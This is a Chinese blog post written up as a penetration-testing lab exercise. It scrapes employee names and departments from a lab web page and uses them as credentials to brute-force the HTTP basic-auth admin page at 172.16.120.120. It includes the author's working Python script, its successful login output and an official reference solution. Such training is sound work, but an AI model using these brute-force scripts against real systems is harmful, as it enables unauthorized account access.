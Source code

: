 ```yaml
---
layout: post
title: "Python辅助开发"
date: "2021-10-26"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Penetration Testing Prerequisites
    - Python
---
```

# Python辅助开发

## 设想

使用您新获得的 Python 知识，创建一个程序，该程序将从网页中收集关键字并使用它们对暴露的管理区域执行暴力攻击。

## 目标

本实验室的目标是：

- 使用 Python 从网页中收集姓名和部门
- 将这些名称提供给基于 Python 的暴力破解机制，这将帮助您获得对管理区域的访问权限

## 你会学到什么

在本实验中，您将了解：

- 使用 Python 进行网页抓取
- Python Requests 和 BeautifulSoup 模块的基本用法
- 用 Python 编写一个简单的暴力破解脚本

**参考**

[get started with Requests.](https://docs.python-requests.org/en/master/user/quickstart/#make-a-request)

[Beautiful Soup 4.4.0 文档](https://www.crummy.com/software/BeautifulSoup/bs4/doc.zh/)



## 任务 1：连接到虚拟环境并浏览网页

实验室的范围是**172.16.120.0/24。**

使用提供的 VPN 文件连接到虚拟环境。然后，导航到**http://172.16.120.120**并通过它来识别任何功能。



## 任务 2：用 Python 开发一个暴力破解脚本，该脚本将使用员工详细信息作为凭据

员工姓名被用作用户名的情况并不少见。看到员工的部门被用作密码的情况并不少见。公司网站通常包含这些信息。

手动收集此类信息可能是一个乏味的过程。因此，使用 Python 收集它们（抓取它们）并创建一个暴力破解脚本，该脚本将使用收集到的信息作为凭据。对管理区域使用暴力破解脚本。

在此任务中，您应该：

- 使用 Python 的“requests”库
- 使用 Python 的“beautifulsoup”库
- 注意基本的认证机制



**我写的代码：**

```python
import requests
from bs4 import BeautifulSoup


def getContent(tag_list):
    li = []
    for element in tag_list:
        element = element.get_text()
        li.append(element)
    return li


r = requests.get('http://172.16.120.120')
html_doc = r.text
soup = BeautifulSoup(html_doc, 'html.parser')
names = soup.find_all(id="name")
names = getContent(names)
uniqnames = sorted(set(names))
departments = soup.find_all(id="department")
departments = getContent(departments)
uniqdepartments = sorted(set(departments))
for name in uniqnames:
    for department in uniqdepartments:
        a = requests.get('http://172.16.120.120/admin.php', auth=(name, department))
        if a.status_code == requests.codes.ok:
            print("Find username '{}' and password '{}' login in successfully.".format(name, department))
```

**参考：**[Python请求库如何使用单个令牌传递授权标头](https://stackoverflow.com/questions/19069701/python-requests-library-how-to-pass-authorization-header-with-single-token)

运行结果：

```python
Find username 'Zack' and password 'Management' login in successfully.
```

使用得到的账号密码登录管理员后台：`172.16.120.120/admin.php`

```ini
Hi Admin! Welcome back.

APACHE_LOCK_DIR='/var/lock/apache2'
APACHE_LOG_DIR='/var/log/apache2'
APACHE_PID_FILE='/var/run/apache2/apache2.pid'
APACHE_RUN_DIR='/var/run/apache2'
APACHE_RUN_GROUP='www-data'
APACHE_RUN_USER='www-data'
IFS=' 	
'
LANG='C'
OPTIND='1'
PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
PPID='1591'
PS1='$ '
PS2='> '
PS4='+ '
PWD='/var/www/html'
```



**官方参考答案：**

```python
import requests
from bs4 import BeautifulSoup as bs4


def downloadPage(url):
    r = requests.get(url)
    response = r.content
    return response


def findNames(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='name')
    output = [] # initialize a list named "output"
    for name in names:
        output.append(name.text)
    return output


def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output


def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print("\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n")


page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print("[+] Working... ")
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```


